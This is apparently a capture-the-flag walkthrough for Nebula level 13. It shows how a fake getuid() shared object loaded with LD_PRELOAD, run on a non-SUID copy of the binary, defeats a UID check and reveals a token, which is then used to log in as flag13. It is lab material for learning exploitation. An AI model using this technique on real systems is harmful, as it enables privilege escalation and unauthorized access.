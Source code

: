 
The security check relies entirely on the `getuid()` function to return a none
`1000` value. We can break this by using `LD_PRELOAD` to load a shared object
file containing a custom `getuid()` function.

We have the following `fake.c` file:

```c
int getuid() {
    return 1000;
}
```

We compile the code as a shared object.

```shell
level13@nebula:~$ gcc -shared -fPIC -o /home/level13/fake.so /home/level13/fake.c
```

We try running the `flag13` binary with our `fake.so` preloaded.

```shell
level13@nebula:~$ LD_PRELOAD=/home/level13/fake.so /home/flag13/flag13
Security failure detected. UID 1014 started us, we expect 1000
The system administrators will be notified of this violation
```

This fails because `LD_PRELOAD` does not work with SUID binaries. Without this
security feature in place, it would be trivial to abuse any SUID binary for
privilege escalation by loading custom shared objects.

We get around this limitation by making a copy of the `flag13` binary without
the SUID bit set. This works because the binary itself contains the token and
does not rely on the SUID bit to read data from anywhere.

```shell
level13@nebula:~$ cp /home/flag13/flag13 /home/level13/flag13
level13@nebula:~$ LD_PRELOAD=/home/level13/fake.so /home/level13/flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
```

Like in previous levels, the string in the token file is the password for the
flag13 user.

```shell
level13@nebula:~$ su - flag13
Password:
flag13@nebula:~$ whoami
flag13
flag13@nebula:~$ id
uid=986(flag13) gid=986(flag13) groups=986(flag13)
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# level 14

We are told that the `/home/flag14/flag14` binary encrypts input and writes it
to standard output.
